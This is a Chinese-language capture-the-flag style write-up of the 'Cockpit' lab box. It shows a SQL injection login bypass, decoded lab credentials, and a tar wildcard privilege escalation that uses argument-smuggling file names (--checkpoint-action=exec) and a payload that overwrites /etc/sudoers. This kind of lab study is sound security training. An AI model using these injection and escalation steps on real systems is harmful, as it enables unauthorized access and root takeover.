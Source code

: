 <!-- ---
title: '[PG] Cockpit'
date: 2025-04-06 19:37 +0900
categories: [hack,PG]
tags: [sql]
--- -->

## information

![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image.png>)
> port scan 

有两个值得我们关注的端口
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-11.png>)
服务器管理系统
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-2.png>)
Web站点
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-3.png>)
通过扫描端口找到一个登录页面
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-10.png>)
没有直接可以利用的方式，对于登录框，我们尝试sql注入
这里做了长度的限制，我选择使用` 'or+true# `
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-4.png>)
> http

![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-5.png>)
成功登录
|Username|Password|Decode|
|---|---|---|
|james|Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=|canttouchhhthiss@455152|
|cameron|dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy|thisscanttbetouchedd@455152|

获得两个用户凭据，

![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-6.png>)
成功登入后台获得服务器shell
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-7.png>)
反弹shell
`sudo -l`发现有特权命令
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-12.png>)
> 补一张截图

![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-8.png>)



```sh
james@blaze:/tmp$ echo "" > '--checkpoint-action=exec=/bin/bash'
bash: --checkpoint-action=exec=/bin/bash: No such file or directory
james@blaze:/tmp$ echo "" > '--checkpoint-action=exec=/bin/sh'
bash: --checkpoint-action=exec=/bin/sh: No such file or directory
```
这样不能成功，换一种方式，用root权限执行我们预先写好的脚本。

```sh
#at target machine, create 2 files
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh payload.sh'
#then create a payload.sh with below content, you can create on your kali machine and transfer to target machine.
echo 'james ALL=(root) NOPASSWD: ALL' > /etc/sudoers
chmod +x payload.sh
#execute the tar
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
```

![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-9.png>)

## conclusion
- 尝试密码复用是一个有效的策略。
- 开始渗透之前整体过一下环境。